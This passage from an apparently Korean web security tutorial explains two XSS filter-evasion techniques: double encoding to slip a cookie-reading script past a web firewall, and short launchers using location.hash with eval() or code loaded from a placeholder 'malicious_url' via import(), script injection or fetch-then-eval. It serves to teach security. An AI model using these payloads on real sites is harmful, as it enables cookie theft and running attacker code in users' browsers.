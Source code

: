 
# #6. 더블 인코딩(Double Encoding)

---

입력 검증은 디코딩 등의 모든 전처리 작업을 마치고 수행해야 한다. 검증이 끝난 데이터를 디코딩하여 사용해서는 안된다.
웹 방화벽을 거쳐 애플리케이션으로 전달되는 웹 서버에서, 웹 방화벽으로부터 통과한 데이터를 다시 디코딩해서 사용하면 **[더블 인코딩](https://owasp.org/www-community/Double_Encoding)**으로 웹 방화벽의 검증을 쉽게 우회할 수 있다.

```
// Failed Request
POST /search?query=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1

// Successful Request
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
```

<br>


# #7. 길이 제한

---

삽입할 수 있는 코드의 길이가 제한되어 있는 경우, 다른 경로로 실행할 추가적인 코드(payload)를 URL fragment 등으로 삽입하고 본 코드를 실행하는 짧은 코드(launcher)를 사용할 수 있다.

### location.hash
Fragment로 스크립트를 넘겨주고 XSS 지점에서 `location.hash`로 fragment 부분을 추출하여 `eval()` 로 실행하는 기법이 흔히 사용된다.

```
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(1); 
```

<br>

### 외부 자원을 이용한 공격방식

```javascript
import('malicious_url');
```

```javascript
var e = document.createElement('script')
e.src = 'malicious_url';
document.appendChild(e);
```

```javascript
fetch('malicious_url').then(x=>eval(x.text()))
```


<br>


# #Practice

---